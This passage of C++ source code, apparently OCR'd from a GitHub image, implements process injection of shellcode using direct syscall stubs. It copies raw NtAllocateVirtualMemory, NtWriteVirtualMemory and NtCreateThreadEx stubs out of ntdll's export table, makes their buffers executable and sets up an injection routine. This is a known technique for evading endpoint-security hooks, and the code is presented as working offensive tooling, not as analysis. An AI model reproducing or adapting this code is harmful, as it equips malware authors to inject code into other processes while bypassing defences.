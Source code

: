 ```c++

	PDWORD addressOfNames = (PDWORD)RVAtoRawOffset((DWORD_PTR)fileData + *(&exportDirectory->AddressOfNames), rdataSection);
	PDWORD addressOfFunctions = (PDWORD)RVAtoRawOffset((DWORD_PTR)fileData + *(&exportDirectory->AddressOfFunctions), rdataSection);
	BOOL stubFound = FALSE;

	for (size_t i = 0; i < exportDirectory->NumberOfNames; i++)
	{
		DWORD_PTR functionNameVA = (DWORD_PTR)RVAtoRawOffset((DWORD_PTR)fileData + addressOfNames[i], rdataSection);
		DWORD_PTR functionVA = (DWORD_PTR)RVAtoRawOffset((DWORD_PTR)fileData + addressOfFunctions[i + 1], textSection);
		LPCSTR functionNameResolved = (LPCSTR)functionNameVA;
		if (strcmp(functionNameResolved, functionName) == 0)
		{
			memcpy(syscallStub, (LPVOID)functionVA, SYSCALL_STUB_SIZE);
			stubFound = TRUE;
		}
	}

	return stubFound;
}

using myNtAllocateVirutalMemory = NTSTATUS(NTAPI*)(HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, PSIZE_T RegionSize, ULONG AllocationType, ULONG Protect);
using myNtWriteVirtualMemory = NTSTATUS(NTAPI*)(HANDLE ProcessHandle, LPVOID BaseAddress, PVOID Buffer, SIZE_T RegionSize, PULONG numBytesWritten);
using myNtCreateThreadEx = NTSTATUS(NTAPI*)(PHANDLE hThread, ACCESS_MASK DesiredAccess, PVOID ObjectAttributes, HANDLE ProcessHandle, LPVOID lpStartAddress, PVOID lpParameter, ULONG Flags, SIZE_T ZeroBits, SIZE_T SizeOfStackCommit, SIZE_T SizeOfStackReserve, PVOID lpBytesBuffer);

void iSC(HANDLE pHandle, PVOID sc, size_t sc_size)
{
	myNtAllocateVirutalMemory NtAllocateVirtualMemory;
	myNtWriteVirtualMemory NtWriteVirtualMemory;
	myNtCreateThreadEx NtCreateThreadEx;

	char syscallStub_NtAlloc[SYSCALL_STUB_SIZE] = {};
	char syscallStub_NtWrite[SYSCALL_STUB_SIZE] = {};
	char syscallStub_NtCreate[SYSCALL_STUB_SIZE] = {};
	DWORD oldProtection = 0;

	// define NtAllocateVirtualMemory
	NtAllocateVirtualMemory = (myNtAllocateVirutalMemory)(LPVOID)syscallStub_NtAlloc;
	VirtualProtect(syscallStub_NtAlloc, SYSCALL_STUB_SIZE, PAGE_EXECUTE_READWRITE, &oldProtection);
	// define NtWriteVirtualMemory
	NtWriteVirtualMemory = (myNtWriteVirtualMemory)(LPVOID)syscallStub_NtWrite;
	VirtualProtect(syscallStub_NtWrite, SYSCALL_STUB_SIZE, PAGE_EXECUTE_READWRITE, &oldProtection);
	// define NtCreateThreadEx
	NtCreateThreadEx = (myNtCreateThreadEx)(LPVOID)syscallStub_NtCreate;
	VirtualProtect(syscallStub_NtCreate, SYSCALL_STUB_SIZE, PAGE_EXECUTE_READWRITE, &oldProtection);

	// get syscall stubs
	GetSyscallStub("NtAllocateVirtualMemory", syscallStub_NtAlloc);
	GetSyscallStub("NtWriteVirtualMemory", syscallStub_NtWrite);
	GetSyscallStub("NtCreateThreadEx", syscallStub_NtCreate);

	SIZE_T RegionSize = sc_size;
	LPVOID BaseAddr;
	PVOID nn = nullptr;
	HANDLE hThread;
```